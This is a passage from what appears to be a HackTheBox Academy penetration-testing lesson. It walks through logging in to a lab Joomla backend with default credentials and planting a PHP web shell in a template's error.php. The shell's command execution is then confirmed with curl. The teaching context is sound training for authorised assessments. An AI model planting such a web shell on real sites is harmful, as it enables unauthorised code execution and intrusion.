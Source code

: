 * * *

## Abusing Built-In Functionality

During the Joomla enumeration phase and the general research hunting for company data, we may come across leaked credentials that we can use for our purposes. Using the credentials that we obtained in the examples from the last section, `admin:admin`, let's log in to the target backend at `http://dev.inlanefreight.local/administrator`. Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com\_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.

![](https://academy.hackthebox.com/storage/modules/113/joomla_admin.png)

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

![](https://academy.hackthebox.com/storage/modules/113/joomla_templates.png)

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

![](https://academy.hackthebox.com/storage/modules/113/joomla_customise.png)

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);

```

![](https://academy.hackthebox.com/storage/modules/113/joomla_edited.png)

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.
